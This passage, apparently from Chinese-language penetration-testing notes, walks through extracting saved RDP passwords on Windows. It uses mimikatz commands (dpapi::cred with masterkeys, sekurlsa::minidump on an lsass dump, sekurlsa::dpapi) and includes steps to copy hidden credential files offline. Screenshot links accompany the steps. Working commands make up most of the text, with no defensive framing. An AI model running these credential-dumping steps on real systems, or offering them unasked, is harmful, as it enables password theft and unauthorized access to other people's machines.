      
    - **第三步：使用mimikatz工具通过masterkey值解密RDP凭据文件**
      ```
      dpapi::cred /in:凭据文件路径 /masterkey:masterkey值
      ``` 
      

**离线读取RDP明文密码**

  - **第一步：下载目标的lsass内存文件**
     
  - **第二步：将RDP凭证下载到本地**
    - 
    - 当打开对应目录没有文件时，需要修改对应的文件夹属性
      -  
      - 在查看功能点，将隐藏受保护的操作系统文件的勾取消即可看到文件
      - 
      - 
    - 
  - **第三步：使用mimikatz载入dump回来的内存**
    ```
    sekurlsa::minidump lsass.dump
    ``` 
  - **第四步：获取credentials的GUID值**
    ```
    dpapi::cred /in:凭证名称
    ``` 
  - **第五步：获取内存中所有的masterkey**
    ```
    sekurlsa::dpapi 
    ``` 
  - **第六步：masterkey进行解密**
    ```
    dpapi::cred /in:凭据文件名 /masterkey:masterkey值
    ``` 